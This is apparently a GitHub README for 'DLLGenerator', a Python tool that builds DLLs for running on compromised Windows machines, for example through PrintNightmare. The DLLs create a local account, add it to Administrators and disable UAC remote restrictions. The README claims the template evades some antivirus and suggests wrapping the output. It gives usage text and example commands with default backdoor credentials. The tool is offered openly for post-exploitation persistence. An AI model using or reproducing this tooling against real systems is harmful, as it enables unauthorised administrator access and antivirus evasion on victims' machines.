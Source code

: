 # DLLGenerator

## What ? 

Dllgenerator is a quick tool to generate DLL, it is designed to be quickcly effective. 

## Why ? 

Sometimes you can only execute one DLL on a remote machine, and you have no connect back possible because of AV (like in printnightmare).
To bypass this you can : 
 - Create a local account
 - Add your local account to Administrators ( or Administrateur 🇫🇷)
 - Disable UAC control 

Seems easy no ? 
In fact it is ! But it's boring to keep one file somewhere and don't remember how it works.
And one day you remove one line (uac for example) and you forgot it ..

## How ? 

Dllgenerator is based on a template file that (on july 2022) still bypass some AV. 
It takes your input and generate a sexy DLLFile with it. 
DLL is not encoded or whatever, but you may consider put it in a wrapper. 

## Man 

```
python generator.py 
usage: generator.py [-h] [--action {create_user,add_to_group,unset_uac} [{create_user,add_to_group,unset_uac} ...]] [--username USERNAME] [--password PASSWORD] [--group GROUP]
                    [--wrapper WRAPPER] [--compliator COMPLIATOR] [--output OUTPUT]

______ _ _                                   _             
|  _  | | |                                 | |            
| | | | | |   __ _  ___ _ __   ___ _ __ __ _| |_ ___  _ __ 
| | | | | |  / _` |/ _ | '_ \ / _ | '__/ _` | __/ _ \| '__|
| |/ /| | | | (_| |  __| | | |  __| | | (_| | || (_) | |   
|___/ |_|_|  \__, |\___|_| |_|\___|_|  \__,_|\__\___/|_|   
              __/ |                                        
             |___/                                         
        Version : 1.0
        Author : shoxxdj

options:
  -h, --help            show this help message and exit
  --action {create_user,add_to_group,unset_uac} [{create_user,add_to_group,unset_uac} ...]
                        Main action
  --username USERNAME, -u USERNAME
                        Your username
  --password PASSWORD, -p PASSWORD
                        Your password matching the rules
  --group GROUP, -g GROUP
                        The group, tips for FR it's Administrateur
  --wrapper WRAPPER, -w WRAPPER
                        A command wrapper
  --compliator COMPLIATOR, -c COMPLIATOR
                        A C compilator : 'i686-w64-mingw32-gcc -lnetapi32' is an option
  --output OUTPUT, -o OUTPUT
                        path and name of your dll

```

### Create your first DLL 

```
python generator.py --action create_user add_to_group unset_uac
```
This will : 
- Create a local account : hoppy / H0pBreWedW1thl0v3 
- Add the account hoppy to group Administrators
- Set the regitry key to disable the functionnality in UAC that prevent remote connection
- Output as hoppy.dll in local directory

### Create a custom DLL 
```
python generator.py --action create_user add_to_group -u malt -p Il0v3b33r5 -g BrewersGroup -o /tmp/beer.dll
```
This will :
- Create a local account malt / Il0v3b33r5
- Add the account malt to BrewersGroup
- Output to /tmp as beer.dll